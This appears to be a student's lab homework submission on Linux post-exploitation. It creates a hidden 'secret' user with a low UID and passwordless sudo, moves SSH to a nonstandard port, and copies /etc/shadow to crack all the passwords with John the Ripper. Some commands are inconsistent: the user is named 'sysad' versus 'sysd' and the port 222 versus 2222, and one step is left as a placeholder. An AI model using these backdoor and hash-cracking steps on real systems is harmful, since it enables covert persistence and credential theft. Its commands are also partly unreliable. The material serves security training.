 ## Submission for Unit 6 Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- sudo adduser sysad


Give your secret user a password.
- sudo passwd sysd

Give your secret user a system UID < 1000.
- usermod -u 999 sysd

Give your secret user the same GID
- `groupmod -g 999 sysd

Give your secret user full sudo access without the need for a password.
- sudo usermod -aG sudo sysd

Test that sudo access works without your password

```bash
sysd ALL=(ALL) NOPASSWD:ALL 
```

## Allow ssh access over port 2222.

Command to edit the `sshd_config` file:

```bash
#Formally Port 22
Port 222
```

Command to restart the ssh service:
- sudo service ssh restart 

Exit the root accout:
- exit 

SSH to the target machine using your `sysd` account and port 2222:
- 
With Target machine powered off
On Attacker machine typed `ssh sysd@192.168.6.105 -p 2222
message displayed: No route to host 

With target machine powered on 
On Attacker machine typed `ssh sysd@192.168.6.105 -p 2222
message displayed: Connection refused 

Use sudo to switch to the root user
- `sudo su

## Crack _all_ the passwords

Ssh back to the system using your sysd account
- `YOUR SOLUTION COMMAND HERE`

- Use John to crack the entire /etc/shadow file
    - cp /etc/shadow /etc/shadowcopy

nano shadowcopy and line up the passwd strings 

then sudo john shadowcopy 
sudo john -show passwd shadowcopy  
